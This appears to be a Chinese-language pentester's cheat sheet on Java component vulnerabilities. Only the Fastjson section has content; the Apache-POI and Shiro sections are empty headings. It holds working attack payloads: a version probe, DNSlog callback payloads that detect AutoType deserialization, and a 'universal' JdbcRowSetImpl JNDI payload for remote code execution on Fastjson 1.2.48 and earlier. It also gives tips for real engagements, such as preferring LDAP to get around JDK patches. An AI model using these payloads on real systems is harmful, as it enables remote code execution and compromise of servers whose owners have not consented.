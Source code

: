 

# JAVA组件漏洞


- [Fastjson](#Fastjson)

- [Apache-Poi](#Apache-poi)

- [Shiro](#Shiro)

  

## Fastjson

### 查看版本

From [浅蓝](https://b1ue.cn/archives/402.html)```test```
```
1.{"@type":"java.lang.AutoCloseable"
```

### 版本 <= 1.2.48

### 回显 

```
======= 回显 =======
{"@type":"java.net.Inet4Address", "val":"dnslog"}
{"@type":"java.net.Inet6Address", "val":"dnslog"}
{"@type":"java.net.InetSocketAddress"{"address":, "val":"dnslog"}}
{"@type":"com.alibaba.fastjson.JSONObject", {"@type": "java.net.URL", "val":"dnslog"}}""}
{{"@type":"java.net.URL", "val":"dnslog"}:"aaa"}
Set[{"@type":"java.net.URL", "val":"dnslog"}]
Set[{"@type":"java.net.URL", "val":"dnslog"}
{{"@type":"java.net.URL", "val":"dnslog"}:0
```

### RCE

```
======= 通杀payload =======
{
    "rand1": {
      "@type": "java.lang.Class",
      "val": "com.sun.rowset.JdbcRowSetImpl"
    },
    "rand2": {
      "@type": "com.sun.rowset.JdbcRowSetImpl",
      "dataSourceName": "rmi://127.0.0.1:1099/aaa",
      "autoCommit": true
    }
}
```

### 利用要点

(备注：根据实战中经验，更推荐使用Ldap协议进行漏洞利用）

RMI协议的利用方式 在JDK 6u132/7u122/8u113 及以上版本中修复了

LDAP协议的利用方式 在JDK 6u211/7u201/8u191 及以上版本中修复了

LDAP的利用方式要优于RMI, 且LDAP可以直接返回序列化对象, 绕过更高版本的JDK限制

当发现一台Redis的数据中含有@type的字样时，意味着AutoType多半是开的



## Apache-poi

## Shiro
